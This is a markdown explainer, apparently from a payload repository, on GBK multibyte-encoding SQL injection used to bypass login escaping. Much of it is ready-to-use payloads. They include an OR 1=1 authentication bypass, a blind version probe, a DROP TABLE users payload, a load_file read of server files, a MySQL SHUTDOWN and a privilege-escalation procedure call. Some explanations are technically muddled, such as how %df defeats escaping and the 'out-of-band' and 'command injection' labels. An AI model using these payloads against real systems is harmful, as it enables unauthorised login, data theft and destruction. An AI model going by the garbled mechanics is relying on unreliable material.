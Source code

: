 # SQLi GBK Authentication Vunlerability

### SQL injection (SQLi) is a web application vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It allows the attacker to manipulate SQL queries by injecting malicious code.
One common scenario is when the application builds SQL queries dynamically with user input, allowing the attacker to modify the meaning of the original query.

#### GBK (Guojia Biaozhun) is a Chinese character encoding that allows encoding of both Chinese characters as well as ASCII characters.
The GBK authentication bypass technique exploits the way GBK encoding allows both ASCII and Chinese characters to be present in the same string.

[SQLi_GBK-Encode_Payloads](https://github.com/MolCoteH/SQLi_PayLoads/blob/SQLi/SQLi_GBK-Encode_Payloads.md)

#### Here's how it works:

    The application has a login form that takes a username and password. The input is escaped to prevent SQLi.
    However, the escaping is not done correctly for GBK strings. The ASCII characters are escaped, while the Chinese chars are left unescaped.
    The attacker submits a username like "admin%df' OR 1=1#"
    The %df' is the GBK encoding for the Chinese character 達. This bypass the escaping and allows the ' OR 1=1# SQLi payload to be injected.
    The original query was supposed to be: 

    SELECT * FROM users WHERE username='admin%df' AND password='xxx'

### But with the GBK bypass it becomes:

    SELECT * FROM users WHERE username='admin%df' OR 1=1#' AND password='xxx'

##### This changes the meaning of the query to match all users, allowing the attacker to login without knowing the password.

#### Here are some additional examples of exploiting the GBK authentication bypass:

    Blind SQL injection by triggering conditional responses:
    
    Original query:
    SELECT * FROM users WHERE username='$username'
    
    Payload: %df' AND substring(version(),1,1)='5#

##### This will check if the first character of the database version is '5', triggering different responses based on true or false.


### Abusing batched SQL statements:

    Original query:
    SELECT * FROM users WHERE username='$username'; SELECT * FROM products;

    Payload: %af'; DROP TABLE users;#

##### This will delete the entire users table while still retrieving the products.

### Exfiltrating data through out-of-band channels:

    Payload: %df' UNION SELECT 1,2,load_file('c:/server_logs.txt')#

##### This will select data from the file system and return it in the application's response.

### Command injection on MySQL:

    Original query:
    SELECT * FROM users WHERE username='$username'

    Payload: %df'; SHUTDOWN;#

##### This will execute the SHUTDOWN command and crash the MySQL server.

### Privilege escalation through stored procedures:

    Original query:
    SELECT * FROM users WHERE username='$username'

    Payload: %af'; CALL increase_privileges();#

#### So in summary, the GBK authentication bypass abuses the inconsistent escaping of GBK strings to inject malicious SQL and bypass login authentication. Proper escaping of all characters, both ASCII and Unicode, is needed to prevent this attack.
